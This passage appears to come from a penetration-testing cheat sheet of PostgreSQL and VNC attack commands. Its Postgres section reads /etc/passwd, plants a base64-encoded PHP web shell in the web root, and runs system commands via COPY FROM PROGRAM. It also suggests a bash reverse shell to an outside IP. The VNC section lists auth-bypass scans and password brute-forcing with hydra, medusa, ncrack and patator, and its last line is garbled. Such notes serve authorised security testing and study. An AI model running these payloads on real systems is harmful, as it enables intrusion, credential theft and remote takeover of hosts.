 ```postgresql
```

**Reading text files:**

```postgresql
select string_agg((select * from pg_read_file('/etc/passwd', 0, 1000000)), ' | ')
```

**Writing 1-liner text files:**

```postgresql
-- base64 payload: '<?php system($_GET["cmd"]);?>'
copy (select convert_from(decode('PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K','base64'),'utf-8')) to '/var/www/html/ws.php'
```

**Code Execution:**

```postgresql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
```

You can put any bash shell command in the string after PROGRAM (e.g. replace `'id'` with `'/bin/bash -c \"bash -i >& /dev/tcp/192.168.45.230/443 0>&1\"'`.


Postgres syntax is different from MySQL and MSSQL, and it's stricter about types. This leads to differences when doing SQL injection.

- String concat operator: `||`
- LIKE operator: `~~`
- Match regex (case sensitive): `~`
- [More operator documentation](https://www.postgresql.org/docs/6.3/c09.htm)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-error-based) has great documentation on Postgres injection.


Interesting Groups/Roles:

- **`pg_execute_server_program`** can **execute** programs
- **`pg_read_server_files`** can **read** files
- **`pg_write_server_files`** can **write** files



## VNC - 5900,5800

VNC is a graphical remote desktop sharing system running on TCP port 5900, with a web interface on port 5800.

```sh
# nmap scan
nmap -v -n -sV --script vnc-info,realvnc-auth-bypass,vnc-title -oA nmap/vnc -p 5900 $VICTIM_IP

# connect ('-passwd passwd.txt' to use password file)
vncviewer $VICTIM_IP

# bruteforcing
hydra -V -f -L user.txt –P pass.txt -s PORT vnc://$VICTIM_IP
medusa -h $VICTIM_IP –u root -P pass.txt –M vnc
ncrack -V --user root -P pass.txt $VICTIM_IP:PORT
patator vnc_login host=$VICTIM_IP password=FILE0 0=pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login
```
